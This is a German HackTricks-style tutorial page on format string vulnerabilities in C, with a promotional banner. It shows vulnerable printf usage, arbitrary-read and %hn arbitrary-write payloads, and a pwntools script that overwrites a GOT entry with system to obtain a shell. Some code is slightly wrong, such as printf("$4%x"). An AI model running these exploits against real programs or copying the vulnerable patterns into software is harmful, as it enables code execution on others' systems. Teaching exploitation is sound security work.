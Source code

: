 # Format Strings

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Arbeiten Sie in einem **Cybersicherheitsunternehmen**? Möchten Sie Ihr **Unternehmen in HackTricks beworben sehen**? Oder möchten Sie Zugriff auf die **neueste Version des PEASS erhalten oder HackTricks im PDF-Format herunterladen**? Überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* **Treten Sie der** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an das** [**hacktricks-Repository**](https://github.com/carlospolop/hacktricks) **und das** [**hacktricks-cloud-Repository**](https://github.com/carlospolop/hacktricks-cloud) **senden**.

</details>

## Grundlegende Informationen

In C ist **`printf`** eine Funktion, die verwendet werden kann, um einen **String auszugeben**. Der **erste Parameter**, den diese Funktion erwartet, ist der **rohe Text mit den Formatierern**. Die **folgenden erwarteten Parameter** sind die **Werte**, die die **Formatierer** des Rohtexts **ersetzen** sollen.

Die Verwundbarkeit tritt auf, wenn ein **Angreifertext als erster Argument** an diese Funktion übergeben wird. Der Angreifer kann einen **speziellen Eingabe missbrauchen**, um die **Fähigkeiten der printf-Formatzeichenfolge** zu nutzen und **beliebige Daten an beliebiger Adresse zu lesen und zu schreiben (lesbar/schreibbar)**. Auf diese Weise kann er **beliebigen Code ausführen**.

#### Formatierer:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Beispiele:**

* Verwundbares Beispiel:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normale Verwendung:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Mit fehlenden Argumenten:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Zugriff auf Zeiger**

Das Format **`%<n>$x`**, wobei `n` eine Zahl ist, ermöglicht es printf anzuzeigen, dass der n-te Parameter (vom Stack) ausgewählt werden soll. Wenn Sie also den vierten Parameter vom Stack mit printf lesen möchten, könnten Sie Folgendes tun:
```c
printf("%x %x %x %x")
```
und Sie würden vom ersten bis zum vierten Parameter lesen.

Oder Sie könnten:
```c
printf("$4%x")
```
und lesen Sie direkt den vierten.

Beachten Sie, dass der Angreifer den `pr`**`intf`-Parameter kontrolliert, was im Grunde bedeutet, dass** seine Eingabe im Stapel liegt, wenn `printf` aufgerufen wird, was bedeutet, dass er spezifische Speicheradressen im Stapel schreiben könnte.

{% hint style="danger" %}
Ein Angreifer, der diese Eingabe kontrolliert, kann **beliebige Adressen im Stapel hinzufügen und `printf` dazu bringen, darauf zuzugreifen**. Im nächsten Abschnitt wird erläutert, wie dieses Verhalten genutzt werden kann.
{% endhint %}

## **Beliebiges Lesen**

Es ist möglich, den Formatter **`$n%s`** zu verwenden, um **`printf`** dazu zu bringen, die **Adresse** zu erhalten, die sich an der **n-Position** befindet, und sie dann zu **drucken, als ob es ein String wäre** (drucken, bis eine 0x00 gefunden wird). Wenn die Basisadresse der Binärdatei **`0x8048000`** ist und wir wissen, dass die Benutzereingabe in der vierten Position im Stapel beginnt, ist es möglich, den Anfang der Binärdatei mit auszugeben:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Beachten Sie, dass Sie die Adresse 0x8048000 nicht am Anfang der Eingabe platzieren können, da die Zeichenkette am Ende dieser Adresse mit 0x00 abgeschnitten wird.
{% endhint %}

## **Willkürliches Schreiben**

Der Formatter **`$<num>%n`** schreibt die **Anzahl der geschriebenen Bytes** in die **angegebene Adresse** im \<num> Parameter im Stapel. Wenn ein Angreifer so viele Zeichen wie möglich mit printf schreiben kann, kann er **`$<num>%n`** dazu bringen, eine beliebige Zahl an eine beliebige Adresse zu schreiben.

Glücklicherweise ist es nicht erforderlich, 9999 "A"s zur Eingabe hinzuzufügen, um die Zahl 9999 zu schreiben. Stattdessen kann der Formatter **`%.<num-write>%<num>$n`** verwendet werden, um die Zahl **`<num-write>`** in die **Adresse zu schreiben, auf die die Position `num` zeigt**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Jedoch ist zu beachten, dass normalerweise, um eine Adresse wie `0x08049724` zu schreiben (was eine GROSSE Zahl ist, um sie auf einmal zu schreiben), **`$hn`** anstelle von `$n` verwendet wird. Dies ermöglicht es, **nur 2 Bytes zu schreiben**. Daher wird diese Operation zweimal durchgeführt, einmal für die höchsten 2 Bytes der Adresse und ein weiteres Mal für die niedrigeren.

Daher ermöglicht diese Schwachstelle, **beliebige Daten an beliebige Adressen zu schreiben (beliebiges Schreiben)**.

In diesem Beispiel soll das Ziel sein, die **Adresse** einer **Funktion** in der **GOT-Tabelle** zu **überschreiben**, die später aufgerufen wird. Obwohl dies auch andere Techniken zum Ausführen von beliebigem Code durch beliebiges Schreiben ausnutzen könnte:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Wir werden eine **Funktion überschreiben**, die ihre **Argumente** vom **Benutzer erhält** und sie auf die **`system`** **Funktion** verweisen.\
Wie bereits erwähnt, sind in der Regel 2 Schritte erforderlich, um die Adresse zu schreiben: Sie schreiben zuerst 2 Bytes der Adresse und dann die anderen 2. Dazu wird **`$hn`** verwendet.

* **HOB** bezieht sich auf die 2 höheren Bytes der Adresse
* **LOB** bezieht sich auf die 2 niedrigeren Bytes der Adresse

Dann, aufgrund der Funktionsweise von Format-Strings, müssen Sie zuerst das kleinere von \[HOB, LOB] schreiben und dann das andere.

Wenn HOB < LOB\
`[Adresse+2][Adresse]%.[HOB-8]x%[Offset]\$hn%.[LOB-HOB]x%[Offset+1]`

Wenn HOB > LOB\
`[Adresse+2][Adresse]%.[LOB-8]x%[Offset+1]\$hn%.[HOB-LOB]x%[Offset]`

HOB LOB HOB\_Shellcode-8 NºParam\_dir\_HOB LOB\_Shell-HOB\_Shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Vorlage

Sie können eine Vorlage finden, um einen Exploit für diese Art von Schwachstelle vorzubereiten unter:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Oder dieses grundlegende Beispiel von [**hier**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Weitere Beispiele & Referenzen

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 Bit, kein relro, kein Canary, NX, kein PIE, grundlegende Verwendung von Format-Strings zum Auslesen der Flagge vom Stack (keine Notwendigkeit, den Ausführungsfluss zu ändern)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 Bit, relro, kein Canary, NX, kein PIE, Format-String zum Überschreiben der Adresse `fflush` mit der Win-Funktion (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 Bit, relro, kein Canary, NX, kein PIE, Format-String zum Schreiben einer Adresse innerhalb von `main` in `.fini_array` (damit der Fluss 1 Mal mehr zurückkehrt) und Schreiben der Adresse zu `system` in der GOT-Tabelle, die auf `strlen` zeigt. Wenn der Fluss zu `main` zurückkehrt, wird `strlen` mit Benutzereingabe ausgeführt und auf `system` verweist, werden die übergebenen Befehle ausgeführt.
